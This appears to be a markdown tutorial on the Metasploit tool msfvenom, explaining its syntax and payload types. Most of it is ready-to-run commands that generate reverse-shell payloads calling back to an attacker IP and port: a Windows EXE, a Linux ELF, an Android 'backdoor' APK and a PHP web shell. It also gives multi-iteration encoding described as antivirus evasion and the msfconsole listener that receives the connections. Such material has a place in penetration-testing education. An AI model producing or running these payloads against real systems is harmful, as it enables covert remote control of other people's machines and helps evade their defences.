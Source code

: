 ## What is `msfvenom`?

**`msfvenom`** is a command-line tool that comes with the **Metasploit Framework**. It combines two older tools:

* `msfpayload` (for creating payloads)
* `msfencode` (for encoding payloads to evade AV)

Now, **`msfvenom`** handles both **payload generation** and **encoding** in a single tool.



## How `msfvenom` is Made Up (Anatomy)

A typical `msfvenom` command consists of:

```bash
msfvenom -p <payload> LHOST=<attacker IP> LPORT=<port> -f <format> -o <output file>
```

### Components Breakdown:

| Part    | Description                                                                |
| ------- | -------------------------------------------------------------------------- |
| `-p`    | Payload to use (`windows/meterpreter/reverse_tcp`, etc.)                   |
| `LHOST` | IP address of your attacking machine (listener)                            |
| `LPORT` | Port to connect back to                                                    |
| `-f`    | Output file format (e.g., `exe`, `elf`, `apk`, `raw`, `c`, `python`, etc.) |
| `-o`    | Output file name (optional but recommended)                                |



## Common Payload Types

| Platform | Example Payload                     | Description                     |
| -------- | ----------------------------------- | ------------------------------- |
| Windows  | `windows/meterpreter/reverse_tcp`   | Full-featured Meterpreter shell |
| Linux    | `linux/x86/meterpreter/reverse_tcp` | Meterpreter for Linux           |
| PHP      | `php/meterpreter_reverse_tcp`       | PHP backdoor                    |
| Android  | `android/meterpreter/reverse_tcp`   | Android payload                 |
| MacOS    | `osx/x86/shell_reverse_tcp`         | Shell for macOS                 |



## Example Usages

### 1. **Windows Reverse Shell (EXE file)**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

### 2. **Linux Reverse Shell (ELF binary)**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > shell.elf
chmod +x shell.elf
```

### 3. **Android APK Backdoor**

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 R > backdoor.apk
```

### 4. **PHP Web Shell Payload**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php
```



## Optional Encoding (AV Evasion)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe > encoded_shell.exe
```

* `-e`: encoder
* `-i`: number of iterations



## Starting a Listener with Metasploit

After generating a payload, start the listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```
